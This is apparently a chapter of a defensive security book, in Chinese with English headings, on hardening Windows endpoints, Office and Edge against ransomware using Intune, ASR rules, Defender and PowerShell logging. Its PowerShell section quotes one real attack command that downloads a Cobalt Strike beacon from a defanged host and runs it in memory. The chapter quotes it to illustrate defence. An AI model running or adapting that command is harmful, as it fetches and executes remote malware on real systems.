## Ransomware Countermeasures – Windows Endpoints, Identity, and SaaS

在上一章中，我们研究了如何使用 Microsoft Sentinel 和 Microsoft Defender for Cloud 等不同的基于云的服务为我们提供安全监控和漏洞评估功能。

在本章中，我们将更深入地关注可以帮助我们降低勒索软件攻击风险的不同对策，主要针对主要攻击向量，即终端、身份、电子邮件服务和网络攻击。

在本章中，我们将涵盖以下主题：

- 使用 Microsoft Intune 和 Azure AD 终端点保护 Windows 终端点
- 遵循攻击面减少规则并使用 SmartScreen 和 Application Guard 等机制保护浏览器
- 在 Azure AD 和 SaaS 服务中保护用户身份
- 增强 Office 365 中的电子邮件安全并降低网络钓鱼攻击风险
- 保护 Windows 终端点的其他技巧

## Technical requirements

在本章中，我们将重点介绍终端、身份和电子邮件服务的各种安全机制。本书中演示的许多解决方案要求您至少拥有 Microsoft Intune 和 Microsoft 365 的有效订阅。

如果您没有有效的许可证或订阅，您可以注册 Microsoft 365 E5 的 60 天试用版，网址为 https://signup.microsoft.com/get-started/signup?products=87dd2714-d452-48a0-a809-d2f58c4f68b7&culture=nb-no&country=no&ali=1。

除此之外，您需要至少有一台已在 Endpoint Manager 中注册的终端，以便能够应用安全配置。我们不会在本書中介绍如何在 Intune 中注册机器。

## Securing endpoints

当我在 *Chapter 1* 中描述了一些不同的勒索软件攻击时，通常许多攻击都始于一台被入侵的终端，然后攻击者可以将其用作进入基础设施的入口点。

因此，保护终端非常重要。我们不希望有被入侵的机器供攻击者用来攻击我们的基础设施。

那么，保护基于 Windows 的终端时有哪些重要因素？请考虑以下几点：

- **Having centralized management** – 这使我们能够集中管理安全机制并将安全配置应用于终端。它还允许我们根据 Microsoft 的新指导和功能更改终端的配置。
- **Update Management** – 这使我们能够集中部署操作系统和软件更新到机器上。修补软件对于确保攻击者无法利用操作系统或其他安装在机器上的软件的新漏洞来获得提升的访问权限至关重要。
- **Antimalware and Endpoint Detection and Response (EDR)** – 这使我们能够根据已知签名以及使用机器学习和行为监控的异常文件和网络活动来监控和阻止恶意软件。虽然防病毒/反恶意软件更侧重于基于签名的检测机制，但 EDR 专注于监控机器上的所有网络和进程活动，这可以提供更深入的洞察。
- **Securing known applications** – 根据最佳实践为已知应用程序（如 Microsoft Office、Google Chrome（或 Microsoft Edge）和 Adobe Reader）配置安全基线，可以大大降低攻击风险。
- **Securing network traffic** – 这涉及部署能够过滤掉来自终端的恶意流量甚至恶意 DNS 流量的安全服务。这可以阻止被入侵的终端与 C2 服务器通信，甚至阻止用户访问已知的网络钓鱼网站。

让我们开始查看 Windows 中的 **Attack Surface Reduction (ASR)** 规则。

## ASR rules

Windows 最佳的安全功能集之一是 ASR 规则，其中包含 Windows 内的多个安全机制。

您可以在 `https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/overview-attack-surface-reduction?view=o365-worldwide` 阅读更多关于 ASR 的信息。

这些功能包括以下内容：

- **Application control** – 这限制了可以在系统内核中运行的应用程序和代码。它还可以阻止未签名的脚本，例如 PowerShell 脚本。
- **Controlled folder access** – 这会阻止不受信任的应用程序访问受保护的文件夹。
- **Network protection** – 这会阻止尝试连接到已知恶意来源（基于域名或主机名）的出站 HTTPS 流量，依据是 Microsoft SmartScreen 的声誉。
- **Exploit protection** – 这会应用多种缓解措施，以确保进程无法利用诸如在机器上生成子进程之类的漏洞。
- **Device control** – 这使我们能够防止对可移动存储的读取或写入访问。

这些功能中的大多数仅在 Windows 10 及更高版本上可用，但在 Server 2012 R2 及更高版本的大多数 Windows Server 版本上也受支持。

请注意，ASR 的完整功能需要 Windows 的企业许可证，这也要求在部署 ASR 的机器上使用 Microsoft Defender Antivirus 作为主要防病毒引擎。

ASR 规则的部署可以使用 Endpoint Manager、组策略或 PowerShell 完成。在本书中，我们将重点介绍 Endpoint Manager 的使用。您可以在 `https://docs.microsoft.com/en-us/microsoft-365/security/defender-endpoint/attack-surface-reduction-rules-reference?view=o365-worldwide` 查看不同 ASR 规则的完整列表和支持的部署方法。

ASR 规则可以在四种不同的模式下运行：Disabled、Block、Audit 或最后一个选项 Warn，即用户会收到通知但可以绕过阻止的状态。

此外，请注意，ASR 的部署应格外谨慎，因为任何错误的配置都可能阻止合法进程运行，并且如果配置不当，可能阻止业务应用程序运行。

虽然您应尽可能启用这些规则，但您需要验证每一个，以确保它们不会破坏您基础设施中的任何其他功能或服务。例如，如果您启用 **Block process creations originating from PSExec and WMI commands** 规则，它可能会破坏由 System Center Configuration Manager 管理的客户端。


收集运行 ASR 审计模式的信息并确定要应用哪些规则可能需要一些时间；不过，安全公司 Palantir 已根据两年 ASR 审计数据提出了建议。在此，他们展示了可以配置为默认的规则。您可以在 https://blog.palantir.com/microsoft-defender-attack-surface-reduction-recommendations-a5c7d41c3cf8 上阅读更多相关信息。

我们将首先使用 Endpoint Manager 为一台机器部署 ASR 规则并置于审计模式。当机器上启用了 ASR 规则的审计模式并且某条规则被触发时，机器会创建一条事件，我们可以对其进行跟踪。

与 ASR 相关的任何事件都会记录在 Windows 事件查看器中，可在 Applications and Services | Microsoft | Windows | Windows Defender | Operational 部分找到。

要在大规模查看这些事件，我们要么需要使用 Log Analytics 或 Windows 事件转发等服务将所有这些日志集中收集，要么可以使用 Microsoft Defender for Endpoint 进行查看。

首先，让我们使用 Endpoint Manager 创建一条 ASR 规则。要使用此方法，我们应已有一个已在 Endpoint Manager 中注册的现有设备，其次，机器应属于某个设备组。您可以在 https://docs.microsoft.com/en-us/mem/intune/enrollment/device-group-mapping 上阅读有关如何设置设备组的更多信息。

ASR 规则在 Endpoint Manager 门户中进行配置，可在 https://endpoint.microsoft.com/ 找到。然后，在 Endpoint security 下选择 Attack surface reduction，如以下屏幕截图所示：



图 4.1 – Endpoint Manager 中的 ASR 规则

然后，单击 **Create Policy** 并选择 **Windows 10 and later** 作为平台。在 **Profile** 下，选择 **Attack surface reduction** 并单击 **Create Policy.**

首先，为 ASR 配置配置文件命名，我倾向于使用以下命名约定，以便轻松了解策略的目标和目标平台。如果您拥有一个拥有明确工作组（如 IT、HR 或工厂工人）的庞大环境，我也倾向于将此作为命名约定的一部分。

例如，您可以使用 win10_targetgroup_locationx_asr_audit。

然后，在 **Configuration Settings** 下，将所有规则设置为 **Audit mode**。然后，单击 **Next** 直到到达 **Assignments**。在那里，选择 **Groups** 并找到包含虚拟机的 Azure AD 设备组，然后单击 **Assign。**

一旦应用了 ASR 配置文件，在测试客户端同步新规则之前可能需要一些时间。您还可以使用此处列出的方法之一强制设备连接并下载最新的配置更新：https://docs.microsoft.com/en-us/mem/intune/user-help/sync-your-device-manually-windows。

一旦设备完全同步，我们需要测试 ASR 规则是否按预期工作。一种有效的方法是使用来自 Microsoft 的 ASR 测试工具，可从 https://demo.wd.microsoft.com/Page/ASR2 下载。

它提供内置测试场景，可直接从客户端运行，如以下屏幕截图所示：



图 4.2 – Exploit Guard Demo Tool 配置

在此，如果您运行以下场景之一，例如 **Block creation of child process by Office application**，它应触发一个事件，该事件将在 **Microsoft-Windows-Windows Defender/Operational** 下生成，**EventID** 值为 **1122**，其中显示 **Microsoft Defender Exploit Guard audited an operation that is not allowed by your IT administrator**，如以下屏幕截图所示：



图 4.3 – Exploit Guard 事件 ID

> **Note**
> 
> 例如，阻止 Office 应用程序创建子进程的规则是 2021 年出现的 MSHTML CVE 漏洞的缓解措施之一，您可以在 `https://www.microsoft.com/security/blog/2021/09/15/analyzing-attacks-that-exploit-the-mshtml-cve-2021-40444-vulnerability/` 上阅读更多相关信息。

最佳做法是尽可能配置尽可能多的这些规则，从 IT 部门和其他高级用户等小群体开始，通过收集审计日志并确定是否有任何 ASR 规则可能会阻止潜在应用程序。一旦验证完成，您应将 ASR 规则默认定义为阻止模式。

## Microsoft Defender 和反恶意软件

大多数终端也应安装并激活反恶意软件/防病毒解决方案。在本章中，我们将重点介绍如何使用 Microsoft Defender Antivirus，但也有其他不错的选择。我建议查看 AV-Comparatives 最新测试中审查的供应商当前列表，详细内容见 https://www.av-comparatives.org/tests/business-security-test-2021-august-november/，这可以表明现在最好的选择是什么。

就 Microsoft Defender Antivirus 的配置和管理而言，这也是通过组策略或使用 Microsoft Endpoint Manager 完成的，与我们配置 ASR 规则时所做的方式类似。

虽然我们可以配置很多设置，但我建议使用澳大利亚政府数字转型局详细说明的大部分蓝图，如 https://desktop.gov.au/blueprint/abac/intune-configuration.html#antivirus 中所述。

这里最重要的一点是，默认情况下，防病毒引擎应每 8 小时检查一次新的签名更新文件。仅供参考，Microsoft 每天可发布 10 多个签名更新。作为蓝图的一部分，它每小时检查一次新的签名更新文件。

此外，此蓝图将启用诸如 **Potentially Unwanted Applications (PUA)** 等功能，这是指由 Microsoft SmartScreen 评估为声誉不佳的应用程序，并阻止这些应用程序在设备上运行。

一旦为设备配置了策略，您可以使用此测试来验证在尝试从以下网站下载文件时 SmartScreen 是否正常工作：https://www.amtso.org/feature-settings-check-potentially-unwanted-applications/

如果启用了 PUA，在尝试从前述网站下载文件时，您应收到如下屏幕截图所示的消息：


*图 4.4 – Microsoft Edge 中 SmartScreen 阻止下载*

虽然许多这些安全功能可以阻止许多已知攻击和漏洞，但攻击者仍可能使用变通方法来绕过这些安全机制。

通常，勒索软件攻击者首先会尝试禁用终端上的防病毒保护，并使用 Mimikatz 等工具收集存储的凭据。他们还可能搜索并窃取其他类型的密码，例如保存在网络浏览器中的密码。Redline 恶意软件就是这种行为的示例，它专门针对保存在 Google Chrome 中的密码。

请注意，我们将在第 10 章《保护 Windows 免受勒索软件攻击的最佳实践》中更详细地介绍 Mimikatz。

此外，Microsoft 还有其他可帮助我们缓解这些攻击向量的功能，例如凭据转储以及限制应用程序和进程直接在底层操作系统上运行的能力。

这包括以下功能：

- **Microsoft Defender Application Guard** – 此功能允许我们在隔离的 Hyper-V 容器中打开 Microsoft Office 中的不受信任文件或 Microsoft Edge 中的不受信任站点。该容器与主机操作系统分离，这意味着容器内的进程无法直接影响操作系统。
- **Microsoft Defender Credential Guard** – 此功能确保 **Local Security Authority (LSA)** 也称为本地用户数据库，使用 **virtualization-based security (VBS)** 受到保护。这意味着 LSA 数据库无法被操作系统的其余部分直接访问。

应注意的是，当您启用凭据保护时，您不能使用旧协议，如 NTLMv1、MS-CHAPv2、Digest 或 CredSSP。

我们还在 Windows 中拥有其他有用的机制，用于限制允许在终端用户机器上运行的非批准可执行文件，例如 Microsoft Defender Application Control 或 Applocker。在此，我们可以根据应用程序的发布者定义策略，并定义应用程序和可执行文件的允许/阻止列表。两个功能都需要我们定义已批准的可执行文件和/或供应商的列表。此外，Microsoft 最近引入了名为 Smart App Control 的新功能，您可以将责任留给 Microsoft。

两个功能在底层虚拟机上都有一些硬件要求，如以下列表所述。还应指出的是，这些功能在任何虚拟化环境中均不受支持，例如基于 VDI 的工作负载：

- 支持 VBS
- 安全启动
- TPM（v1.2 或 2.0）
- 64 位 CPU
- Windows Hypervisor 和 CPU 虚拟化支持

两个功能也可以在 Endpoint Manager 中进行配置，转到 **Devices | Configuration Profiles | Create Profile**，选择 **Windows 10 and later | Templates**，然后选择 **Endpoint Protection。**

虽然 Credential Guard 只是一个简单的开关，只要满足要求即可启用，但 application guard 有稍多的配置选项。作为起点，我倾向于仅为 Microsoft Edge 启用该功能并启用日志记录，如以下屏幕截图所示：




在 Intune 中，有多个配置文件可用于启用 **Application Guard**。如图 *4.5* 所示，这些选项仅以独立模式为 Microsoft Edge 启用该功能。如果我们想为 Office 和托管模式启用 Application Guard，则需要使用 Intune 中 **Endpoint Security | Attack Surface Reduction | Create Profile** 下的另一个配置文件设置，并选择 **App and browser isolation**。

此外，需要注意的是，如果你希望其他浏览器也能获得同等程度的保护，Application Guard 可作为 Firefox 和 Google Chrome 等浏览器的扩展使用。你可以在此处找到该扩展：`https://www.microsoft.com/security/blog/2019/05/23/new-browser-extensions-for-integrating-microsofts-hardware-based-isolation/`。

当你部署此设置时，它将配置独立模式下的 Application Guard 功能，该模式会在 Microsoft Edge 底部添加一个附加按钮，用户可以在需要时点击该按钮，在 Application Guard 中启动浏览器会话，如以下截图所示：

如果你拥有 Microsoft 365 E5 许可证并为端点启用了 Microsoft Defender for Endpoint，你还可以从 Microsoft 365 Defender 门户查看任何已发现的漏洞。通过访问 `security.microsoft.com`，并使用有权访问该服务的 Azure AD 管理员账户登录，然后进入 **Vulnerability management and weaknesses**，它将列出你环境中的所有软件和漏洞。

虽然 Microsoft 的更新通道和 Autopatch 可以管理 Windows 原生应用程序和产品，但它们不处理环境中可能存在的第三方应用程序的更新。要添加此功能，你需要使用诸如 PatchMyPC 之类的第三方产品，该产品支持与 Intune 集成，以处理这些应用程序的补丁管理。

## 保护 Microsoft Office 应用

Microsoft Office 应用程序是任何企业的重要方面，许多企业每天都会收到网络钓鱼尝试或作为电子邮件附件附带的恶意内容。

如前所述，在我讨论一些不同的勒索软件攻击时，其中许多都是从一封带有文档的电子邮件开始的，当用户运行文档中的代码时，攻击者便获得了立足点。一个例子是一种名为 Locky 的勒索软件变种，它使用包含带有恶意内容的 Word 文档的网络钓鱼电子邮件。这些文档嵌入了宏，因此一旦用户单击启用内容，恶意软件可执行文件就会从 Web 服务器下载额外的载荷，并开始查找要加密的附加驱动器和网络共享。

因此，为我们的 Office 应用程序设置一些额外的安全机制也是降低勒索软件攻击风险的一个重要方面。

在管理 Microsoft Office 应用程序时，通常可以使用组策略设置来完成，这些设置可以在 https://www.microsoft.com/en-us/download/details.aspx?id=49030 找到。

组策略设置是在任何基于 AD 的部署中管理配置的最常见方式。我们还可以使用 Office 365 管理中心中新的基于云的配置服务，其优势在于，无论设备是否完全受管理，都可以使用它们来管理 Office 365。这意味着，如果用户使用其 Azure AD 账户登录，策略将自动应用于应用程序。

此服务的另一个优点是，当 Microsoft 创建了额外的策略时，它们会自动在服务中可用，因此你无需下载 ADMX 即可确保新策略得以应用。

需要注意的是，只有基于用户的策略可用。如果你想应用基于计算机的设置，可以通过 Intune 使用 ADMX 部署模板。

Office 365 配置服务可在 https://config.office.com/officeSettings/officePolicies 找到，我将以此为例，为我们的用户构建 Office 应用程序的安全基线。

在配置门户中，转到 **Customization | Policy Management**，然后单击 **Create** 启动向导，如下面的截图所示：



图 4.9 – Microsoft Office 365 配置服务

为配置文件提供一个名称，单击 **Next**，然后选择一个范围。在这里，我们需要定义一个 Azure AD 安全组，该组包含一个或多个我们希望应用这些设置的用户。然后进入 **Policies**，在这里我们将看到所有可供我们为用户配置的策略列表，甚至在顶部还有一个显示 **Baseline** 的筛选器。在这里，基线筛选器将显示属于 Microsoft 安全基线一部分的策略，并将成为我们的起点。

这些设置中有许多适用于单个应用程序或整个 Office 套件，你可以在 *Application* 下的图标用法中看到这一点，如下面的截图所示：



图 4.10 – 在 Microsoft Office 配置中定义受信任位置

这里，我们有一个适用于 Microsoft Excel 的策略，另一个适用于 Office 套件的策略，后者随后应用于所有 Office 应用程序。在门户顶部，我们还有一个基线筛选器，用于筛选出 Microsoft 作为其安全基线一部分的所有策略。

总体而言，禁用宏可能会影响使用该功能的最终用户，尤其是在 Microsoft Excel 等应用程序中。因此，你可能需要允许宏从特定的网络位置运行。

当我们将网络位置指定为 Office 中的受信任位置时，这也意味着 Application Guard 等功能将不会运行。

需要注意的是，Microsoft 已对所有从互联网下载的包含宏的文件进行了一些更改，这些文件默认将被禁用。你可以访问 https://docs.microsoft.com/en-gb/DeployOffice/security/internet-macros-blocked 阅读有关此近期更改的更多信息。

## 保护 Web 浏览器

用户最常用的应用程序是 Web 浏览器；虽然大多数现代 Web 浏览器都具有较高安全级别，但仍存在一些与漏洞相关的挑战。Google Chrome 和 Microsoft Edge 都基于 Chromium 内核构建，它们曾因漏洞数量众多而陷入困境，你可以在 https://www.cisecurity.org/advisory/multiple-vulnerabilities-in-google-chrome-could-allow-for-arbitrary-code-execution_2022-001 看到这一点。

虽然这两种浏览器都支持自动更新，但通常需要重启浏览器才能正确安装更新。我在众多项目中看到的一件事是，最终用户通常不太愿意重启浏览器；因此，你还需要实施一些功能来确保这些更新得以安装。

Web 浏览器另一个需要考虑的重要方面是扩展。虽然许多扩展可以提供更多安全功能，例如弹窗拦截器或广告拦截器，但也有许多已知的恶意扩展被用来在本地计算机上收集用户名和密码。因此，在托管端点上控制扩展非常重要。

对于 Google Chrome 和 Microsoft Edge，我们都可以通过集中管理工具（如 Intune 或组策略）来管理扩展和更新机制。Microsoft 和 Google 都有各自的 ADMX 文件，可用于通过 AD 和组策略来管理浏览器。在此，我将使用带有 ADMX 功能的 Microsoft Intune 来部署 Microsoft Edge 设置。

> 注意
> 你可以在 https://docs.microsoft.com/en-us/deployedge/microsoft-edge-update-policies 查看 Microsoft Edge 的最新策略设置列表。

在 Intune 中部署 Microsoft Edge 设置是通过端点门户完成的；转到 **Devices | Configuration profiles | Create a Profile**，然后在 **Profile type** 下选择 **Templates**。接着，选择 **Administrative Templates**，如下面的截图所示：


## 创建配置文件

平台
Windows 10 及更高版本

配置文件类型
模板

模板包含按功能组织的一组设置。当您不想手动构建策略，或者希望配置设备以访问公司网络（例如配置 WiFi 或 VPN）时，可以使用模板。了解详情

搜索

模板名称
管理模板

图 4.11 – 在 Endpoint Manager 中配置管理模板

然后，单击“创建”。为配置文件提供一个名称。然后在“配置设置”下，您应该会看到几个不同的设置名称，包括 Google 和多个 Microsoft Edge 条目。

首先，让我们看一下更新设置，以确保 Edge 会自动更新，并在一定时间后自动重启：

- **更新策略覆盖默认值** – 这确保启用了**始终允许更新**。
- **自动更新检查周期覆盖** – 这定义了它检查新更新的频率。
- **设置更新通知的时间** – 这向用户发送需要重启以安装待处理更新的通知，并显示一个时间段。
- **通知用户浏览器重启对于待处理更新是建议还是必需** – 这向用户显示浏览器重启是建议还是必需。在这里，您应将此设置定义为“必需”。这确保浏览器会重启。
- **设置重启的时间间隔** – 在这里，我们指定在更新通知期到期后，浏览器重启之前应经过的时间量。如果我们不在这里定义设置，默认值是在凌晨 2 点到凌晨 4 点之间。这里的设置定义为 XML，如下所示：

```
{"entries": [{"start": {"hour": 0, "minute": 0},
"duration_mins": 240}]}
```

此示例定义重启应在 0 点（即午夜）之后进行。但是，此策略仅用于控制在特定时间窗口内发生的浏览器重启。如果您的绝大多数终端是笔记本电脑或移动办公人员，那么很可能大多数终端在午夜时处于离线状态。此策略仅在您知道终端在线（例如固定机器）时才有用。

需要注意的是，Edge 作为浏览器，会定期收到大量安全更新，您可以在此处查看：https://docs.microsoft.com/en-us/deployedge/microsoft-edge-relnotes-security。

除了定义更新功能外，还有其他一些设置也应配置为默认启用：

- 配置 Microsoft Defender SmartScreen
- 使用 Microsoft Defender SmartScreen 阻止 PUA
- 阻止安装外部扩展
- 控制无法安装哪些扩展
- 允许安装特定扩展
- 控制以静默方式安装哪些扩展

前两项设置只是为了确保 SmartScreen 已启用并按其预期方式工作。您可以使用 Microsoft 的 https://demo.smartscreen.msft.net/ 测试站点来验证其是否正常工作。进入该网站并单击其中一个测试（例如“恶意软件页面”），如果功能正常，您应该会收到 SmartScreen 的消息，指出该网站被标记为危险。

列表中的最后几项用于实现对扩展的控制。这可以防止用户独立安装扩展，只允许安装预先批准的扩展，例如我们希望安装的那些扩展。

对于列表中的最后一点，我们可以定义希望 Edge 自动安装哪种类型的扩展。例如，我倾向于使用策略安装 AdBlock 扩展，在这里，我需要输入扩展/应用 ID，这些 ID 可以在 Microsoft Edge 加载项商店中每个扩展的网站上找到。正如您在 Edge 加载项商店中看到的 AdBlock（https://microsoftedge.microsoft.com/addons/detail/adblock-%E2%80%94-best-ad-blocker/ndcileolkflehcjp mjnfbnaibdcgglog），如果我想要将其自动安装到我的设备上，我需要在策略中添加该扩展的应用 ID，如下面的截图所示：



图 4.12 – 在 Endpoint Manager 中配置 Microsoft Edge 扩展

应用程序 ID 是 Microsoft Edge 加载项商店 URL 的最后一部分。如果我们想为 Google Chrome 安装扩展，也同样适用。

一旦策略应用到设备，用户如果打开“设置”窗口，就会注意到 Microsoft Edge 由您的组织管理，如下面的截图所示：



图 4.13 – 由 Endpoint Manager 管理的浏览器

这意味着 Microsoft Edge 已应用了来自管理服务（如组策略或 Microsoft Endpoint Manager）的策略。

虽然前面提到的示例允许我们在最终用户机器上保持对浏览器的控制，但还有其他方法可以使用托管服务提供安全浏览器，例如：

- Citrix Browser Service
- Cloudflare Browser Isolation
- CheckPoint Harmony Browse

这些服务中的大多数提供了一种托管浏览服务，该服务与威胁情报服务集成，以提供更安全的浏览体验。引入这些服务是因为提供基于网络的安全机制变得越来越困难，正如我们传统上所做的那样，因为新的 Web 协议（如 HTTP/3）的出现，它不允许直接检查。这意味着我们需要将安全性移动到用户层，以提供相同级别的安全性。

## 其他杂项端点对策

到目前为止，我们重点关注添加新的安全机制来增加额外层次，以及为系统和常见业务应用程序实施补丁管理。

然而，还有其他一些设置我们应该实施，以进一步降低端点被入侵的风险，或者降低被入侵的端点被用来对我们的基础设施发起攻击的风险。因此，以下是我们可以为端点实施的其他杂项对策列表。

### DNS 过滤

每月有超过 200,000 个**新注册域名（NDR）**。Palo Alto 指出，这些域名中的大多数被用于可疑或恶意目的，正如我们从 `https://unit42.paloaltonetworks.com/newly-registered-domains-malicious-abuse-by-bad-actors/` 的研究中所看到的。

Palo Alto 还建议我们在新注册域名初始注册后最多 32 天（约 1 个月）内将其阻止。因此，这需要一些 DNS 过滤功能，以确保我们能够直接阻止来自客户端的这些 DNS 查找请求。用户可能会收到钓鱼电子邮件，然后被重定向到钓鱼网站，以诱使用户输入其凭据。在客户端上使用 DNS 过滤服务可以防止用户访问钓鱼网站，因为 DNS 请求会被阻止。

在将 DNS 过滤功能作为单一服务时，有两个不错的选择：OpenDNS 或 Cloudflare。

两家供应商都提供公共 DNS 解析器服务，并具有根据内容阻止某些域名的额外功能，您可以在 `https://developers.cloudflare.com/1.1.1.1/setup/#1111-for-families` 了解更多信息。

它们也有商业选项；例如，OpenDNS 提供 Umbrella，Cloudflare 提供 Cloudflare Access，您可以在其中以更细粒度级别定义 DNS 过滤。

### PowerShell

PowerShell 脚本也常在勒索软件攻击中使用，要么用于侦察，要么用于下载恶意软件负载以进行基于内存的攻击。

例如，以下是一个最近使用的 PowerShell，用于触发 BITS 传输作业以下载 Cobalt Strike 信标：

```
powershell.exe  -nop -c "start-job { param($a) Import-Module BitsTransfer; $d = $env:temp + '\' + [System.IO.Path]::GetRandomFileName(); Start-BitsTransfer -Source 'hxxp://x.x.x.x/a' -Destination $d; $t = [IO.File]::ReadAllText($d); Remove-Item $d; IEX $t } -Argument 0 | wait-job | Receive-Job"
```

我们可以配置一些设置，以确保我们的端点上的 PowerShell 具有更高的安全性。

默认情况下，在 Windows 10 和 Windows 11 上，已安装 PowerShell v2。v2 是一个旧版本，应该做的一件事是在需要的地方升级到最新版本。在撰写本文时，


撰写本书时，最新版本为 7.2，可在 https://docs.microsoft.com/en-us/powershell/scripting/install/installing-powershell-on-windows?view=powershell-7.2 上找到。

其次，我们应在 PowerShell 引擎上启用一些额外的日志记录机制以监控可疑活动。这要求我们收集端点的事件日志，以便能够监控 PowerShell 的异常使用情况。这些日志应使用 SIEM 工具或产品（如 Microsoft Sentinel）收集到集中式日志服务中。还应注意，Defender for Endpoint 和其他 EDR 产品也能提供对 PowerShell cmdlet 和模块使用情况的洞察。

在 PowerShell 中，我们有以下日志机制：

- **引擎生命周期日志** – 这允许 PowerShell 记录设备上 PowerShell 会话的启动和终止。如果运行的 PowerShell 版本高于 5，则还会记录命令行参数。默认情况下，引擎生命周期日志已启用，可在事件查看器中的 Applications and Services Logs\Microsoft\Windows\PowerShell\Operational 日志下访问。
- **模块/管道日志** – 从 PowerShell 3.0 版本开始，可以按模块或全局方式将管道事件记录到 Windows 事件日志中。此功能可通过组策略或使用 Endpoint Manager 启用。
- **脚本块跟踪** – 从 5.0 版本开始，可以将详细信息（包括运行的代码）记录到事件日志中。此输出可提供系统所采取操作的洞察。

现在，默认情况下，PowerShell 应设置为仅允许签名脚本。然而，需要注意的是，存在大量绕过脚本执行策略的方法，因此这只是定义 PowerShell 安全性的一个小部分。

许多勒索软件攻击也利用 PowerShell 下载额外有效载荷以及使用诸如 invoke-webrequest 之类的命令。

Invoke-WebRequest 是一个 PowerShell cmdlet，允许您向网页或 Web 服务发送 HTTP 和 HTTPS 请求。它可用于下载网页内容、从 Web 服务器下载文件以及向 Web 服务器上传数据。

在勒索软件的上下文中使用时，它可用于从命令和控制服务器下载并执行恶意软件有效载荷或脚本，从而使攻击者能够远程控制受损系统。此外，它还用于从受害者网络中窃取敏感数据。

就 PowerShell 而言，NSA 和 CSI 还提供了额外的指导，可在此处找到：https://media.defense.gov/2022/Jun/22/2003021689/-1/-1/1/CSI_KEEPING_POWERSHELL_SECURITY_MEASURES_TO_USE_AND_EMBRACE_20220622.PDF。

PowerShell 日志的配置可使用组策略或使用 Microsoft Intune 进行。

在 Intune 中部署 PowerShell 设置是通过端点门户完成的，在 **Devices | Configuration profiles, Create Profile** 下，配置文件类型为 **Templates**。从那里，选择 **Administrative Templates**，然后从列表中选择 **Windows PowerShell**，如下图所示。

然后，如下图所示定义策略：

